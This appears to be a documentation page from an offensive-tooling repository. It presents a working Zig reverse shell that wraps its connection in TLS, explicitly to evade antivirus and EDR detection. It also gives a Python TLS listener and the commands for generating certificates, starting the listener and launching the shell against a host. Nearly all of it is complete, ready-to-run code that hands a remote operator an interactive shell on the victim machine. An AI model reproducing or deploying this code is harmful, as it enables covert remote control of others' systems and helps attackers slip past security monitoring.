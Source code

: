 # Reverse Shell With TLS

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Reverse-Shell/std_reverse_shell_with_tls)

This example implements a classic reverse shell **using only Zig's standard library**.  
Unlike the [previous one](../std_reverse_shell), this version **implements TLS encryption**, so all network traffic is encrypted. In real-world operations, antivirus and EDR solutions often monitor network traffic. If they detect something resembling command-and-control behavior, it may trigger an alert — which is exactly what we want to avoid. With this reverse shell, encrypted traffic helps **bypass basic detections** by obscuring the communication.

## Usage

As an attacker, on the attacking machine, you should generate the certification and the key before starting a listener.

```bash
# Generate cert and key first
openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes -subj "/CN=localhost"

# Start listener
./listener.py 6666 server.crt server.key utf-8
```

After that, you can trigger the reverse shell on the target by passing the IP and port as the arguments.

```bash
./std_reverse_shell_with_tls example.com 6666
```

## Reverse Shell

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(allocator);
    defer std.process.argsFree(allocator, args);

    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS\n", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    // Create TCP connection
    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();

    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Connection failed\n", .{});
        return;
    };
    defer stream.close();

    // Initialize TLS client
    var tls_client = std.crypto.tls.Client.init(stream, .{
        .host = .no_verification,
        .ca = .self_signed,
    }) catch |err| {
        std.debug.print("[-] TLS initialization failed: {}\n", .{err});
        return;
    };

    std.debug.print("[+] TLS connection established\n", .{});

    // Start shell process
    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;

    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    // Main I/O loop - similar to your original working version
    while (true) {
        // Read command from TLS connection
        const bytes_read = tls_client.read(stream, &buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process stdin
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Small delay to let command execute
        std.time.sleep(100 * std.time.ns_per_ms);

        // Try to read stdout first
        if (process.stdout.?.read(&buffer)) |stdout_len| {
            if (stdout_len > 0) {
                _ = tls_client.writeAll(stream, buffer[0..stdout_len]) catch break;
            }
        } else |_| {
            // If no stdout, try stderr
            if (process.stderr.?.read(&buffer)) |stderr_len| {
                if (stderr_len > 0) {
                    _ = tls_client.writeAll(stream, buffer[0..stderr_len]) catch break;
                }
            } else |_| {
                // If no output available, send a prompt or newline
                _ = tls_client.writeAll(stream, "\n") catch break;
            }
        }
    }

    // Wait for process to finish
    _ = process.wait() catch {};
    std.debug.print("[+] Session ended\n", .{});
}
```

## Listener (Python)

```python title="listener.py"
#!/usr/bin/env python3

import socket
import sys
import threading
import ssl

if len(sys.argv) <= 4:
    print(f"Usage: {sys.argv[0]} <port> <cert> <key> <encode>")
    print(f"Example: python listener.py 6666 server.crt server.key utf-8")
    exit(1)
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=sys.argv[2], keyfile=sys.argv[3])

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(("0.0.0.0", int(sys.argv[1])))
sock.listen()

print(f"[+] TLS Listener started on port {sys.argv[1]}")
print("[+] Waiting for connection...")

conn, addr = sock.accept()

try:
    conn = context.wrap_socket(conn, server_side=True)
    print("[+] TLS handshake completed successfully")
    print("[+] Encrypted reverse shell session established")
    print("=" * 50)
except Exception as e:
    print(f"[-] TLS handshake failed: {e}")
    conn.close()
    exit(1)
def recv():
    while True:
        data = conn.recv(65535)
        sys.stdout.buffer.write(data.decode(sys.argv[4]).encode())
        #sys.stdout.buffer.write(data)
        sys.stdout.buffer.flush()

recvthread = threading.Thread(target=recv)
recvthread.start()

while True:
    data = sys.stdin.buffer.readline()
    conn.send(data.decode().encode(sys.argv[4]))
    sys.stdin.buffer.flush()
```
